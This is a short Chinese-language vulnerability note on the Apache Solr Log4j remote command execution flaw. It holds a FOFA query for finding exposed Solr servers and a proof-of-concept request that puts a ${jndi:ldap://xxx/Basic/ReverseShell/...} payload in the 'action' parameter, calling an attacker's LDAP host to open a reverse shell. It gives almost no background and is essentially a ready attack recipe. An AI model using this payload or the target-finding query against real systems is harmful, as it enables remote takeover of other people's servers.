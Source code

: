 # Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## FOFA

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251622273.png)

验证POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251622876.png)